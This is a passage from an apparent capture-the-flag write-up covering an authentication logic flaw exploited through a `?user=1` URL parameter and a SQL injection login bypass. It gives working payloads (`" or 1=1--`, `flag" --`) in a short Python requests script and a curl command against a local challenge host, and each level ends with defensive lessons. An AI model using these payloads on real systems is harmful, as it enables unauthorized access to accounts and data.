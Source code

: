 **Key Lessons Learned:**  
- Unsanitized input passed to shell commands can lead to command injection.
- Error messages and stack traces can reveal how input is processed.
- Always use parameterized APIs or proper input validation when invoking system commands.

---

## Level 3: Authentication Logic Flaw

**Problem Statement:**  
Bypass authentication to access the flag by exploiting logic flaws in user ID handling.

**Approach:**  
- Analyzed the source code and found that after login, the user is redirected with a `user` parameter.
- Directly accessed the endpoint with `?user=1` to retrieve the flag.

**Example Exploit:**
```sh
curl http://challenge.localhost:80?user=1
```

**Tools Used:**  
- `curl`
- Source code review

**Key Lessons Learned:**  
- User IDs in URLs can be manipulated to access other users’ data.
- Never trust user-supplied identifiers without proper authorization checks.

---

## Level 4: SQL Injection (Login Bypass)

**Problem Statement:**  
Exploit SQL injection in the login form to bypass authentication and access the flag.

**Approach:**  
- Identified that user input was directly interpolated into SQL queries.
- Used payloads like `flag" --` and `" or 1=1--` to bypass password checks and retrieve the flag.

**Example Exploit:**
```python
# Bypass with always-true condition
url = "http://challenge.localhost:80"
data = {"username": '" or 1=1--', "password": "admin"}
response = rq.post(url, data=data)
print(response.text)

# Get flag user directly
url = "http://challenge.localhost:80"
data = {"username": 'flag" --', "password": "admin"}
response = rq.post(url, data=data)
print(response.text)
```
